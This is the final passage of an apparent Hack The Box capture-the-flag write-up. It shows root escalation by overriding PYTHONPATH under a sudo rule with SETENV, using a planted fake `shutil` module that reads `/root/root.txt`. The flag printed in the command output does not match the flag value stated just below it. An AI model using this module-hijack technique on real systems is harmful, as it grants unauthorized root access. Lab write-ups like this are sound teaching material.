 In Python, the folders where the interpreter looks for the modules you try to
import are listed in the [`PYTHONPATH`][python-path] environment variable, just
like `PATH` in a shell. Given that the `SETENV` option is set in the `sudoers`
policy module for the execution of `/opt/scripts/admin_tasks.sh` by `waldo`, the
value of `PYTHONPATH` can be overwritten, allowing to inject custom versions of
the imported modules.

It is exactly the strategy I followed. I created another module named `shutil` containing
my own implementation of `make_archive`:

```python
def make_archive(x, y, z):
    with open('/root/root.txt', 'r') as f:
        print(f.readline())
```

I placed this Python script in `/tmp/shutil/__init__.py` and then:

```raw
$ sudo PYTHONPATH=/tmp /opt/scripts/admin_tasks.sh 6
Running backup script in the background, it might take a while...
$ 86875a82845fa2c5f211500a85d78f5c


$
```

The root flag was `cf943b5f4a33dc4b9a438550d232915f`.

## Wrapping up

It was an easy machine, as expected. It still allowed me to discover the Adminer
project and it was also an occasion for me to use the rogue MySQL server of Bettercap.

 [adminer-exploit-blog-post]: https://medium.com/bugbountywriteup/adminer-script-results-to-pwning-server-private-bug-bounty-program-fe6d8a43fe6f "Adminer Script Results to Pwning Server?, Private Bug Bounty Program"
 [bettercap]: https://www.bettercap.org/ "Bettercap Official Website"
 [bettercap-caplets]: https://www.bettercap.org/usage/#caplets "Bettercap - Caplets"
 [bettercap-mysql-module]: https://www.bettercap.org/modules/ethernet/servers/mysql.server/ "Bettercap MySQL module"
 [htb]: https://hackthebox.eu/ "Hack The Box - Main Website"
 [kali-hydra]: https://tools.kali.org/password-attacks/hydra "Kali Tools - Hydra Package Description"
 [nmap-ftp-anon]: https://nmap.org/nsedoc/scripts/ftp-anon.html "Nmap script ftp-anon"
 [python-path]: https://docs.python.org/3/using/cmdline.html#envvar-PYTHONPATH "Python 3 Documentation - PYTHONPATH"
